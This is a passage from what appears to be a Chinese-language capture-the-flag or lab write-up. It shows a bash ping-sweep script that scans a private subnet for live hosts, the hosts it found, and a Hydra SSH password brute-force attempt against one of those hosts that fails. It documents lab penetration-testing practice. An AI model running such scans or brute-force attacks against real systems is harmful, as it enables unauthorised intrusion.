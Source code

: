 没东西，继续找一下是否有可以利用的，但是没啥发现，尝试进行内网扫描，直接使用[师傅的](https://conimi.com/archives/118/#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)了!：

```bash
for c in {0..255}
do
ips="192.168.$c"
    for d in {0..255}
    do
    ip="$ips.$d"
    ok=0
        for count in {1..3}
        do
            ping -c1 -W1 $ip &>/dev/null
            if [ $? -eq 0 ]
            then
                ok=1
                break
            fi

        done
        if [ $ok -eq 1 ]
            then
                echo "$ip ping is ok"
        else
            continue
        fi
        done
done
```

```bash
192.168.0.1 ping is ok
192.168.0.125 ping is ok
192.168.0.143 ping is ok
```

没东西，尝试生成字典爆破、`rockyou.txt`爆破，以及`cewl`字典爆破，都失败了。

```bash
┌──(kali💀kali)-[~/temp/blackhat2]
└─$ hydra -l sml -P pass.txt ssh://192.168.0.125 2>/dev/null
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 07:18:27
[DATA] max 16 tasks per 1 server, overall 16 tasks, 237 login tries (l:1/p:237), ~15 tries per task
[DATA] attacking ssh://192.168.0.125:22/
[STATUS] 144.00 tries/min, 144 tries in 00:01h, 95 to do in 00:01h, 14 active
[STATUS] 113.00 tries/min, 226 tries in 00:02h, 13 to do in 00:01h, 14 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 07:21:00
```
